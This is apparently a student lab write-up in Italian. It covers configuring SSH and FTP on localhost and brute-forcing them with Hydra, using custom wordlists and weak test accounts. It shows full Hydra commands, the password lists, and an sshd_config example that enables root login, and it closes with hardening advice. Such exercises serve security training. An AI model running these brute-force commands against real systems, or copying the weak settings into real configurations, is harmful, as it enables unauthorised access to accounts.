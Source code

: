 # 📐 Progetto S6/L5 📐
# 🛡️ Brute Force SSH e FTP con Hydra

## **Obiettivo dell'Esercizio**

L'obiettivo dell'esercizio è stato duplice:
1. 🛡️ Fare pratica con lo strumento **Hydra** per effettuare attacchi di brute force sull'autenticazione di servizi di rete.
2. 🔧 Configurare i servizi SSH e FTP, consolidando la conoscenza di gestione e protezione dei servizi di rete.

---

## **Passaggi Seguiti**

### **1. Configurazione del Servizio SSH**

1. **Creazione dell'utente per il test**:
   ```bash
   sudo adduser test_user
   ```
   - Nome utente: `test_user`
   - Password: `testpass`

2. **Attivazione del servizio SSH**:
   ```bash
   sudo service ssh start
   ```

3. **Modifica del file di configurazione SSH** (opzionale):
   - Per permettere configurazioni avanzate, abbiamo modificato `/etc/ssh/sshd_config`:
     ```bash
     sudo nano /etc/ssh/sshd_config
     ```
     - Esempio di modifica: 
       ```
       PermitRootLogin yes
       MaxStartups 10:30:60
       ```
   - Riavvio del servizio SSH:
     ```bash
     sudo service ssh restart
     ```

4. **Verifica del servizio SSH**:
   - Recupero dell'indirizzo IP:
     ```bash
     ifconfig
     ```
   - Test della connessione:
     ```bash
     ssh test_user@127.0.0.1
     ```

### **2. Creazione delle Wordlist Personalizzate**

Abbiamo creato due file di wordlist per simulare un attacco mirato:

- **Wordlist delle password**:
  ```bash
  echo -e "password\n123456\nadmin123\ntestpass\nqwerty\nletmein\npassword1\nwelcome\n12345678\nchangeme\nroot123\ntoor\niloveyou\nsecurepass\npassword123" > passwords.txt
  ```

- **Wordlist dei nomi utente**:
  ```bash
  echo -e "test_user\nadmin\nroot\nuser1\nguest\noperator\nsupport\nmanager\ndeveloper\nservice\nbackup\ntester\naccount\nsuperuser\nsysadmin" > usernames.txt
  ```

### **3. Utilizzo di Hydra per il Brute Force su SSH**

Abbiamo utilizzato **Hydra** per effettuare il brute force sul servizio SSH:

1. **Comando per Hydra**:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   ```
   - `-L usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server SSH (localhost).
   - `-t 1`: Esegue un thread alla volta per evitare errori di connessione.

2. **Risultato**:
   - ✅ Hydra ha identificato con successo la combinazione:
     - Nome utente: `test_user`
     - Password: `testpass`

![SSH](./SSHcredfound.png)

### **4. Configurazione del Servizio FTP**

1. **Installazione del server FTP**:
   ```bash
   sudo apt-get install vsftpd -y
   ```

2. **Avvio del servizio FTP**:
   ```bash
   sudo service vsftpd start
   ```

3. **Modifica del file di configurazione FTP**:
   - Disabilitazione dell'accesso anonimo e abilitazione degli utenti locali:
     ```bash
     sudo nano /etc/vsftpd.conf
     ```
     Modifiche effettuate:
     ```
     anonymous_enable=NO
     local_enable=YES
     ```
   - Riavvio del servizio FTP:
     ```bash
     sudo service vsftpd restart
     ```

4. **Creazione dell'utente per il test FTP**:
   ```bash
   sudo adduser ftp_user
   ```
   - Nome utente: `ftp_user`
   - Password: `ftp_pass`

### **5. Utilizzo di Hydra per il Brute Force su FTP**

1. **Creazione delle wordlist personalizzate**:
   - File dei nomi utente:
     ```bash
     echo -e "ftp_user\nadmin\nroot\nguest\nuser1" > ftp_usernames.txt
     ```
   - File delle password:
     ```bash
     echo -e "123456\npassword\nftp_pass\nadmin123\nwelcome" > ftp_passwords.txt
     ```

2. **Comando per Hydra**:
   ```bash
   hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 ftp
   ```
   - `-L ftp_usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P ftp_passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server FTP (localhost).
   - `-t 1`: Esegue un thread alla volta.

3. **Risultato**:
   - ✅ Hydra ha identificato con successo la combinazione:
     - Nome utente: `ftp_user`
     - Password: `ftp_pass`

![FTP](./FTPcredfound.png)

---

## **Conclusioni e Considerazioni**

L'esercizio ha dimostrato:
1. 💡 L'efficacia degli attacchi brute force con dizionari mirati.
2. 🔐 La necessità di proteggere i servizi di rete configurando correttamente il file di configurazione e implementando sistemi di rilevamento come `fail2ban`.

### **Miglioramenti Suggeriti per la Sicurezza**
- **Usare chiavi SSH** invece delle password.
- **Limitare i tentativi di login** e disabilitare utenti inutilizzati.
- **Configurare fail2ban** per bloccare tentativi ripetuti.
